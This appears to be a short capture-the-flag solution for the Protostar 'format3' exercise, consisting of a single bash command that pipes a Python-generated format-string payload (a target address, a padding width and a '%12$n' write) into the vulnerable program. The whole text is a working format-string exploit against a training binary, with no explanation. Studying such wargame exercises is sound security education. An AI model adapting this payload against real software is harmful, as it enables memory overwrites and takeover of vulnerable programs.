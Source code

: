 # format3 - protostar
```BASH
python -c 'print "\xf4\x96\x04\x08"+"%16930112d" +"%12$n"' |./format3


